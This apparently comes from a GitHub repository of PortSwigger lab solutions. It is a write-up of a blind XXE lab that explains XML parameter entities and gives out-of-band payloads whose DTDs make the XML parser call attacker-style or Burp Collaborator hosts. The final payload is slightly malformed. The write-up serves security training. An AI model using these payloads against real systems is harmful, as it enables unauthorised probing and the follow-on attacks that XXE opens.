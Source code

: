 # Lab-04 Description :

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/c5a92d04-f21e-4e32-b91a-f7e6893f7f0e)

## Overview :

 **Sometimes, XXE attacks using regular entities are blocked**, due to some input validation by the application or some hardening of the XML parser that is being used. In this situation, you might be able to **use XML parameter entities instead**. XML parameter entities are a special kind of XML entity which can only be referenced elsewhere within the DTD. For present purposes, you only need to know two things. First, the declaration of an XML parameter entity includes the percent character before the entity name:

 ```xml
<!ENTITY % myparameterentity "my parameter entity value" >
```

And second, parameter entities are referenced using the percent character instead of the usual ampersand:

```
%myparameterentity;
```

This means that you can test for blind XXE using out-of-band detection via XML parameter entities as follows:

```xml
<!DOCTYPE foo [ <!ENTITY % xxe SYSTEM "http://f2g9j7hhkax.web-attacker.com"> %xxe; ]>
```

This XXE payload declares an XML parameter entity called xxe and then uses the entity within the DTD. This will cause a DNS lookup and HTTP request to the attacker's domain, verifying that the attack was successful. 

## Solution :


Clicking on checkstock feature , browser sends the following request.

```xml
POST /product/stock HTTP/1.1
Host: 0a0f001d038e90d781560cbc008a008e.web-security-academy.net
Cookie: session=gwBsRlQTEvY287RWKXKNzyrlafd6MhsP
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:106.0) Gecko/20100101 Firefox/106.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: https://0a0f001d038e90d781560cbc008a008e.web-security-academy.net/product?productId=1
Content-Type: application/xml
Content-Length: 107
Origin: https://0a0f001d038e90d781560cbc008a008e.web-security-academy.net
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
Te: trailers
Connection: close

<?xml version="1.0" encoding="UTF-8"?>
<stockCheck>
  <productId>1</productId>
  <storeId>1</storeId>
</stockCheck>
```

First we will declare a DOCTYPE eith parameterized entitites (**%**) which contains the url of our collaborator server -`<!DOCTYPE root [<!ENTITY % ext SYSTEM "http://UNIQUE_ID_FOR_BURP_COLLABORATOR.burpcollaborator.net/x"> %xxe; ]>` & in that we can reference the parameterized entitiy using - `%ext;`

> Reference - https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/XXE%20Injection/README.md#basic-blind-xxe

**Payload -**

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY % xxe SYSTEM "http://sd9y3po3qry9jo5vf4684x8de4ku8j.oastify.com"> %xxe; ]> 
 <productId>% 1</productId>
 <storeId>1</storeId>
</stockCheck>
```


![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/62ac4c21-2258-4736-a8e8-519399b87b8e)

In the response it says that - `XML parsing error` but it means that the xml parser indeed parsed the xml code and made an outbound request to our collaborator server.

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/e7d2d8f7-c3fe-416b-82a4-102e382a30a9)

And we've solved the lab !

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/9cd32a23-285d-4267-9cfd-64c3959a5f99)















